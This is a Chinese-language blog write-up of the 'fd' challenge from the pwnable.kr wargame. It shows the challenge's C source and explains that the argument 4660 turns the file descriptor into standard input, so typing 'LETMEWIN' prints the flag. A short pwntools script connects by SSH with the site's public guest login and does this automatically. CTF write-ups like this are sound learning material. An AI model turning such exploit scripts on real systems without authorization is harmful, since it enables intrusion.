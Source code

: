 ```yaml
---
date: 2019-08-07
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Pwn
- pwnable
blog: true
category: blog
layout: post
title: Pwnable-01-fd
description: >
  这是pwnable的第一题fd的解析过程,其中涉及到思路分析
#tags: [技术]
author: DshSec
---
```

#### pwnable介绍

  [pwnable.kr](https://pwnable.kr/index.php) is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. the main purpose of pwnable.kr is 'fun'.    please consider each of the challenges as a game. while playing pwnable.kr, you could learn/improve system hacking skills but that shouldn't be your only purpose.
#### 源代码：

```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  char buf[32];

  int main(int argc, char* argv[], char* envp[]){
      if(argc<2){
  	printf("pass argv[1] a number\n");
  	return 0;
  	}
  	int fd = atoi( argv[1] ) - 0x1234; //atoi把字符串转成整形
  	int len = 0;
  	len = read(fd, buf, 32); //将参数fd所指的文件传送32个字符到buf
  	if(!strcmp("LETMEWIN\n", buf)){     //strcmp(str1,str2),str1=str2返回0，str1<str2返回负数，str1>str2返回正数
  		printf("good job :)\n");        //buf==LETMEWIN\n的时候输出flag
  		system("/bin/cat flag");    
  		exit(0);
  	}
  	printf("learn about Linux file IO\n");
  	return 0;

  }
```
#### 解题思路

```
  目标：执行system(“/bin/cat flag”);
  则：strcmp(“LETMEWIN\n”, buf) == 0
  则：buf = “LETMEWIN\n”
  则：read(fd, buf, 32)将buf设为”LETMEWIN\n”
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
  所以我们可以使fd == 0，然后从终端输入LETMEWIN后回车
  要使fd == 0，
  则：输入的参数 == 0x1234，即4660

  从文件描述符fd所指向的文件中读取count个字节的数据到buf所指向的缓存中。
  文件描述符是由无符号整数表示的句柄，进程使用它来标识打开的文件。
  文件描述符0代表标准文件。
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
```
#### 解答：

先输入0x1234的十进制即4660，然后再输入LETMEWIN
./fd 4660
LETMEWIN

#### poc
```python
  from pwn import *
  pwn_ssh=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
  print(pwn_ssh.connected())
  sh=pwn_ssh.process(argv=['fd','4660'],executable='./fd')
  sh.sendline('LETMEWIN')
  print(sh.recvall())
```
